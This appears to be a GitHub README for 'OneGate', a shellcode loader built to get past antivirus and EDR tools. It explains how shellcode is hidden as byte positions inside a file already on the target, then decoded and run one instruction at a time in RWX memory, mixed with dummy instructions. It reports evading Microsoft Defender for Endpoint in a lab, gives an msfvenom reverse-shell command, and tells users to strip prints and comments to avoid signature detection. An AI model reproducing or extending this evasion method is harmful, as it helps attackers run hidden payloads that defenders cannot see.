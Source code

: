 # OneGate
Yet another shellcode loader - but a sneaky one


[insert humerous picture]


This is a combination of my earlier shellcode obfuscation project WhenAPayloadCalls but now with a custom shellcode loader which aims to defeat antivirus and EDR solutions.

The intent was to use the most obvious WinAPIs possible while aslo using least amount of evasion techniques and still have it defeat AV/EDR. As such it uses:

- VirtualAlloc to execute RWX memory
- No use of VirtualProtect to flip memory protections - just does everything inside RWX memory
- Uses CreateThread to run
- No sandbox evasion

**NOTE**: This is meant to be more of a proof of concept of the technique as opposed to an off the shelf solution, so don't expect to be able to pick it up and have it work for everything

## How it works

There are two parts to OneGate - the constructor and the executor (OneGate):

### Constructor

Get some shellcode and put it in the `const unsigned char Payload[] {}` located in `constructor.c`. There are already two examples in there for a calc.exe shellcode and a reverse shell, both generated by MSFVenom.

The basic method of obfuscating the shellcode comes from WhenAPayloadCalls. This is a shellcode obfuscation technique using a file which already exists on the target computer. You will need an **EXACT** byte for byte copy of the file you are targeting. As such this is not meant as a general "out of the box" obfuscation technique, but rather one that is specifically tailored to that specific target system. It is also possible to upload your own file to the target system and use that to generate your payload.

Pick a file on the attacker's machine (this is why you need an exact byte for byte copy of a file on the victim's machine) that you want to use. The program will iterate through the chosen file and look for the bytes in the shellcode, noting down the position of each one. For example if the first byte is `FC`, it will search the target file for the byte `FC` and print out the position in the target file at which it is found (on my system using the target file `notepad.exe` the byte `FC` is the `266`th byte in notepad). If the program cannot find the byte it will say so. This generates the `Positions[]` array.

Using the Zydis (https://github.com/zyantific/zydis) it will iterate through the shellcode and determine the number of bytes in each instruction generating an array called `bytesPerLine[]`.

A sample output of the constructor is as follows:

[insert sample output]


### OneGate (the executor)

OneGate first allocates a memory page and fills it with random instructions. It randomly allocates a starting position for the shellcode within this memory page so that the shellcode doesn't start in the same place each time.

It then opens the file that is being used to perform the byte deobfuscation and iterates through `Postitions[]` and only decrptys the number of bytes needed for that particular instruction. This way only the exact bytes required for the next instruction are ever revealed at any given time. These bytes are written to their correct plce in the memory page (overwriting what is already there) and executed. Once an instruction is executed the original bytes that were overwritten are written back to their place in the memory page. Therefore not only are the bytes only exposed for the minimum amount of time, but unless the defence system can catch the modification in time, it will appear as though nothing changed on the memory page at that particular address.

To defeat any register based pattern recognition which may be used by EDRs, at random intervals OneGate generates a random set of instructions and executes them - these are referred to as dummy instructions. A stable of instructions are held in the `instructions[][]` array. It will select a random number of instructions to use for each given dummy set, so that the dummy instructions are not always the same length. Before executing the dummy instructions, it saves the thread context of the shellcode execution. This enables the dummy instructions to modify them at will. The tread context is then restored and execution of the shellcode continues as if nothing happened.

Currently the `instructions[][]` array only takes instructions which are three bytes in length. There is also a hardcoded value in the `CreateDummy()` function which only allows it to deal with three byte instructions. The size of the array and the hard coded instructions can be changed at will to avoid signature based detections, however no testing has been conducted with instructions larger than 3 bytes in length.

OneGate takes a **LOOOOONG** time to run payloads, so be patient after you launch it. On my VM with very little system resources it takes about 3 minutes to spawn a calculator and 20 minutes to get a reverse shell connection. In the lab environment (see Evasion) it took about 6 minutes to get a reverse shell.


## Evasion

This was tested in Altered Security's lab environment (shout out to Nikhil for letting me test it on there) which had a machine running Microsoft Defender for Endpoint (Microsoft's EDR solution). OneGate was infiltrated to the target machine and run from disk without using any sort of in memory PE loading techniques. Using the payload `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.100.91 LPORT=9000` built on `notepad.exe` a reverse connection was successfully established to the listener machine.

[insert picture]

An analysis of the MDE dashboard shows only one detection by MDE which had to do with a compromised account and the dumping of a SAM hive (this was a shared environment so other people were doing other things). Of interest is the fact that MDE had flagged the `jumpone$` account shown in the picture below as being compromised - this was the same account used to sign in to deploy OneGate on the target machine meaning that even with a flagged account MDE did not detect the execution of the reverse shell.

[insert MDE dashboard picture]


While not definitive, it is believed that the fact that OneGate takes so long to run the shellcode helps with defeating AV/EDR sandboxing. Seeing as the AV/EDR cannot run OneGate in a sandbox forever, it runs it for however long it can and determines that nothing malicious is going on and lets it run in the production environment. The prevents the need for sandbox detection and evasion techniques to have to built into the loader which may be detected.

### Other EDRs

If anyone gets the opportunity to test this against other EDRs please drop me a line and let me know how it goes. I really wanted to see how this would go up against Crowdstrike especially, but wasn't able to get access to an environment where it was avialable.

### BIG NOTE
Currently OneGate prints a lot of things that I had in there for debugging purposes. I have left these prints in so that you can see what OneGate is doing if you decide to single step it through a debugger. I have also left comments in there so that you (and I when I come back to it six months later) can hopefully make sense of my code.

In order to get it past defences, **remove all prints and comments from the code** (you can leave error printing). With everything still in there even good old basic Windows Defender will trigger a signature based detection as soon as it touches disk (I think this has to do with the comment containing the string "msfvenom").


## Known Issues

OneGate (the executor part) will randomly throw an access violation error. I think this has something to do with the random allocation of the payload starting point and the location of the address where any dummy code is held but I have not been able to figure it out yet. If you get an access violation error, just run OneGate again.
